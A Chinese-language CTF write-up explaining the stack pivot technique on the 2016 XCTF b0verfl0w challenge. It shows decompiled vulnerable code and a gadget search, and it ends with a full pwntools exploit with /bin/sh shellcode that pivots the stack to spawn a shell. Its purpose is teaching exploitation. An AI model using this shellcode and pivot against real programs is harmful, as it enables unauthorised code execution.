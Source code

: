 ```yaml
---
title: stack privot攻击技术示例
time: 2017-08-04
tags: [CTF, pwn, stackoverflow]
layout: post
categories: posts
---
```



# 什么是stack privot?

stack privot字面意思就是栈劫持，是指劫持栈指针指向攻击者放置有利用代码的空间去，比如指向了攻击者构造好的ROP链。

通常，在以下情况我们会考虑使用stack privot技术进行利用
* 可以控制的栈溢出的字节数较少，难以构造较长的ROP链
* 开启了PIE(Position-Independent Executables)保护，栈地址未知，我们可以将栈劫持到已知的区域。
* 其它漏洞难以利用，我们需要进行转换，比如说将栈劫持到堆空间，从而利用堆漏洞

如果我们想要劫持栈指针，那么我们所需要的gadget就必须能够控制栈指针，比如`pop sp` `jmp sp` `add sp` `sub sp`之类的gadgets都可能拿来使用。

# 漏洞分析

本节示例的漏洞程序可以从此处下载： [stack_privot](stack_privot)

这是`2016 XCTF Quals-b0verfl0w`, 我们用它来演示这次的stack privot攻击

我们使用IDA反编译，可以看到如下：
``` c
signed int vul()
{
  char s; // [sp+18h] [bp-20h]@1

  puts("\n======================");
  puts("\nWelcome to X-CTF 2016!");
  puts("\n======================");
  puts("What's your name?");
  fflush(stdout);
  fgets(&s, 50, stdin);
  printf("Hello %s.", &s);
  fflush(stdout);
  return 1;
}
```

s的大小为0x20，而总共能写入的字符只有50，再加上ebp，我们能在溢出后实际利用的字节仅仅只有`50-0x20-4=14bytes`，只有这么小的空间，对我们构造攻击代码是十分困难的。我们选择使用stack privot技术，于是来查看一下程序中可以利用的gadgets有哪些

``` bash
➜  stack-privot ROPgadget --binary stack_privot --only 'pop|jmp|ret' | grep 'esp'
0x08048504 : jmp esp
```

那么这样的话，我们就可以借由`jmp esp`将执行流转移到栈上执行。而转移到栈上执行后，我们还需要对esp减上偏移(在返回地址时esp已经和ebp指向同一个地址)，使之转移到我们的buf中继续执行，而buf中我们事先就输入好了shellcode，那么我们在劫持完成后便可以获得一个shell

# 攻击代码

``` python
from pwn import *

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

sub_esp_jmp = asm('sub esp, 0x28;jmp esp')
jmp_esp = 0x08048504

payload = shellcode
payload += 'A' * (0x24-len(shellcode))
payload += p32(jmp_esp)
payload += sub_esp_jmp

io = process('./stack_privot')
io.recvuntil("What's your name?\n")
io.send(payload)
io.interactive()

```
